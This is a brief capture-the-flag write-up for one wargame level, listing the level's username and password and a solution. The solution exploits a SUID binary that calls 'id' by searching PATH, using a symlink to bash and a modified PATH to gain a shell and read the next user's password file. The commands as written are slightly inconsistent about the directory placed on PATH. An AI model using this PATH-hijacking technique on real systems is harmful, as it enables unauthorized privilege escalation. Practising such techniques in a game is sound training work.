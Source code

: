 # username
andromeda
# password
OTWGTbHzrxhYFSTlKcOt
# objective
The user anthea reminds us who we are.
# method of solve
The SUID binary in the home directory makes reference to the ID command. We can do path hijacking. So...
```
mkdir /tmp/...andromeda/
ln -s /bin/bash /tmp/...andromeda/id
export PATH=/tmp:$PATH
./uid
cat anthea_pass.txt
```
